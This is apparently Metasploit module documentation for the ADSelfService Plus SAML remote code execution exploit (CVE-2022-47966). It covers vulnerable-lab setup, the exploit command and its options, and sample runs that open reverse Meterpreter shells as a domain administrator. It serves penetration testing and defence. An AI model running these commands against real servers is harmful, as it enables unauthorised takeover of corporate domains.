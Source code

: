 ## Vulnerable Application

This exploits an unauthenticated remote code execution vulnerability that
affects Zoho ManageEngine ADSelfService Plus versions 6210 and below
(CVE-2022-47966). Due to a dependency to an outdated library (Apache Santuario
version 1.4.1), it is possible to execute arbitrary code by providing a crafted
`samlResponse` XML to the ADSelfService Plus SAML endpoint. Note that the target
is only vulnerable if it has been configured with SAML-based SSO at least once
in the past, regardless of the current SAML-based SSO status.


## Installation

### SAML 2.0 Identity Provider

If you don't have an already SAML 2.0 Identity Provider (IdP), you can use this
free one for testing: https://mocksaml.com/. Download the Metadata file and
take note of the Entity ID URL (`https://saml.example.com/entityid`).

### Download the installers

Go to https://archives.manageengine.com/, fill the form with any data and
select ADSelfService Plus product with any version (e.g. `6210`). You can then
have access to all the versions and platform installers.

### Windows

This host will need to be part of a domain.
1. Launch the Windows installer and select all the default options by clicking
   `Next` (you can skip the Registration for Technical Support part, it is
   optional). When the installation is done, unselect the two options `Yes, I
   want to view readme file` and `Start ADSelfService Plus in console mode` and
   click `Finish`.
1. Go to the Start menu, select `ADSelfService Plus` and click `Install
   ADSelfService Plus as Service`.
1. Go to the Start menu again, select `ADSelfService Plus` and click `Start
   ADSelfService Plus`. This will start a browser and get you to the login
   page.

### Enable SAML 2.0 SSO

1. Go to `http://<hostname>:8888`
1. Login with the default Administrator credentials (`admin`:`admin`).
1. Fill and set up the mandatory Security Questions and click `Next`.
1. Click on `Admin` in the navigation bar, then `Product Settings` and `Connection`.
1. Select `ADSelfService Plus Port [https]` and click on `Apply SSL Certificate`.
1. Select `Generate Certificate`, fill the mandatory fields and click on
   `Generate & Apply Self-Signed Certificate`.
1. Click on `Update Access URL` in the banner that appears immediately after
   the SSL certificate has been applied.
1. Select `HTTPS` and change the default port to 9251. The Server Name should
   already be the system hostname. Click `Save`.
1. Click again on `Admin` in the navigation bar, then `Customize` and `Login
   Settings`. In the main panel `General` tab, check the `Hide self-service
   admin login` checkbox, close the notification window and click `Save`.
1. Select the `Single Sign-On` tab and check the `Enable SSO` checkbox.
1. Select SAML Authentication, choose `Custom SAML` in the `Select IdP`
   dropdown menu. Enter any name in `IdP Name` and upload the Metadata file you
   get from the IdP.
1. Click `Save`.

At this point you will need to take note of the URL (Recipient or Issuer URL
they should be the same). Its format is
`https://<hostname>:9251/samlLogin/<32-digit id>`. The ID will be used by the
module (see the next section).

Finally, restart the server: go to the Start menu again, select `ADSelfService
Plus` and click `Stop ADSelfService Plus` and then `Start ADSelfService Plus`.
This should get you to the updated URL the HTTPS one, port 9251.


## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966`
1. Do: `exploit rhosts=<remote host IP> lhost=<local host IP> guid=<the ID from the Enable SAML 2.0 SSO section> issuer_url=<Entity ID URL from the IdP>`
1. You should get a shell
1. Also test with the other target


## Options

### TARGETURI
The ADSelfService Plus SAML endpoint URL. Set to `/samlLogin` by default.

### GUID
The SAML endpoint GUID you got from the Admin page (see the `Enable SAML 2.0
SSO` section).

### ISSUER_URL
The Issuer URL used by the Identity Provider which has been configured as the
SAML authentication provider for the target server.

### RELAY_STATE
The Relay State URL. This is optional and is automatically set up by the module
by default (`http(s)://<rhost>:<rport>/samlLogin/LoginAuth`).


## Scenarios

## Windows 2019 - Target 0 (Windows Command)
```
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.107 lhost=192.168.100.1 guid=e699eba710a6643f561a5f24ce3df0be1e1b5674 issuer_url=https://saml.example.com/entityid

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Sending stage (175686 bytes) to 192.168.100.107
[*] Meterpreter session 7 opened (192.168.100.1:4444 -> 192.168.100.107:50225) at 2023-01-26 21:42:18 +0100

meterpreter > sysinfo
Computer        : NEWDC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NEWLAB\Administrator
```

## Windows 2019 - Target 1 (Windows EXE Dropper)
```
msf6 exploit(multi/http/manageengine_adselfservice_plus_saml_rce_cve_2022_47966) > exploit rhosts=192.168.100.107 lhost=192.168.100.1 guid=e699eba710a6643f561a5f24ce3df0be1e1b5674 issuer_url=https://saml.example.com/entityid

[*] Started reverse TCP handler on 192.168.100.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Command Stager progress -  17.01% done (2046/12025 bytes)
[*] Command Stager progress -  34.03% done (4092/12025 bytes)
[*] Command Stager progress -  51.04% done (6138/12025 bytes)
[*] Command Stager progress -  68.06% done (8184/12025 bytes)
[*] Command Stager progress -  84.24% done (10130/12025 bytes)
[*] Sending stage (200774 bytes) to 192.168.100.107
[*] Command Stager progress - 100.00% done (12025/12025 bytes)
[*] Meterpreter session 8 opened (192.168.100.1:4444 -> 192.168.100.107:50227) at 2023-01-26 21:42:49 +0100

meterpreter > sysinfo
Computer        : NEWDC01
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 8
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NEWLAB\Administrator
```


